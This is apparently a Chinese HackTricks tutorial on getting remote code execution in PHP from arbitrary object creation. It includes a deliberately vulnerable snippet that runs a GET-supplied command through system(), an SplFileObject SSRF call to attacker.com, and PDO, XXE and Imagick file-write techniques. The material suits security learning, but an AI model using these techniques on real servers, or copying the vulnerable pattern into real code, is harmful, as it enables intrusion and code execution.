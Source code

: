 # PHP - 利用对象创建实现远程代码执行：new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或者**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>

## 引言

在你可以创建一个新的任意对象，如 `new $_GET["a"]($_GET["a"])` 的情况下，你可能能够实现远程代码执行(RCE)，并且[**这篇文章**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)揭示了不同的获取RCE的方法。

## 通过自定义类或自动加载实现RCE

在构造 `new $a($b)` 中，**变量 `$a` 代表将要创建对象的类名**，而变量 **`$b` 代表将传递给对象构造函数的第一个参数**。

如果 `$a` 和 `$b` 来自GET/POST，它们可以是**字符串或字符串数组**。如果它们来自 **JSON** 或其他地方，它们**可能有其他类型**，如对象或布尔值。

让我们考虑以下示例：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
function App2 ($cmd) {
system($cmd);
}
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
在这段代码中，你可以将 `$a` 设置为 `App` 或 `App2`，将 `$b` 设置为 `uname -a`。之后，命令 `uname -a` 将被执行。

当你的应用程序中没有这样的可利用类，或者你需要的类在一个不被易受攻击代码包含的单独文件中时，你可以考虑使用自动加载函数。

**自动加载函数** 是通过注册回调函数 `spl_autoload_register` 或定义 `__autoload` 来设置的。当尝试创建一个未知类的实例时，它们会被调用。
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
取决于PHP版本和自动加载函数中的代码，可能存在通过自动加载实现远程代码执行的方法。

## 通过内置类实现RCE

当你没有自定义类和自动加载时，你可以**仅依赖PHP内置类**。

PHP内置类的数量在100到200个之间。它们的数量取决于PHP版本和已安装的扩展。所有内置类可以通过`get_declared_classes`函数列出，自定义类也是如此：
```php
var_dump(get_declared_classes());
```
通过[反射 API](https://www.php.net/manual/en/book.reflection.php)可以找到具有有用构造函数的类。

使用反射 API 显示构造函数及其参数：[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)

![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

如果你能控制**多个构造函数参数并且之后可以调用任意方法**，那么有很多方法可以获得远程代码执行。但如果你只能传递**一个参数并且没有对创建的对象进行任何调用**，那么几乎**没有什么**。

我只知道从 `new $a($b)` 获取某些东西的三种方法。

### **SSRF + Phar 反序列化**

`SplFileObject` 类实现了一个构造函数，允许连接到任何本地或远程 URL：
```
new SplFileObject('http://attacker.com/');
```
这允许SSRF。此外，在PHP < 8.0中，SSRF可以通过使用Phar协议的技术转变为反序列化。

### **利用PDOs**

PDO类有另一个有趣的构造函数：
```php
new PDO("sqlite:/tmp/test.txt")
```
`PDO` 构造函数接受 DSN 字符串，允许我们**连接到任何本地或远程数据库**，使用**已安装的数据库扩展**。例如，SQLite 扩展可以创建空文件。

### **SoapClient/SimpleXMLElement XXE**

在 PHP ≤ 5.3.22 和 ≤ 5.4.12 中，SoapClient 的构造函数**容易受到 XXE 攻击**。SimpleXMLElement 的构造函数也容易受到 XXE 攻击，但它需要 libxml2 < 2.9。

## 通过 Imagick 扩展实现 RCE

检查你试图利用的**项目**的**依赖项**，你可能会发现**新的类**，这些类可以**被滥用来执行命令**，通过创建一个新对象。在这种情况下，发现 **Imagick** 对于这个目的很有用。

### VID 解析器

VID 解析器允许在文件系统内的任意路径写入任意内容，这将允许攻击者在网页可访问的文件夹中写入 PHPshell 并获得 RCE。

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID 解析器 + 文件上传

当文件上传到 PHP 时，它会暂时存储在 `/tmp/phpXXXXXX`。Imagick 的 VID 解析器使用 **msl** 协议允许**在文件路径中指定通配符**（因此可以轻松访问临时上传的文件）并**将其复制到任意位置**。\
这是在文件系统内获得任意文件写入的另一种方式：

![](<../../../.gitbook/assets/image (159).png>)

### PHP 崩溃 + 暴力破解

[**原始的写作**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 解释了另一种通过**上传具有特定内容的文件**并在服务器崩溃之前**删除**该文件，然后**暴力破解**临时文件的名称，直到 **Imagick 执行任意 PHP 代码**的方法来获得 RCE。

然而，显然发现的**崩溃技巧**只**在 ImageMagick 的旧版本中有效**。

## 参考资料

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>从零开始学习 AWS 黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
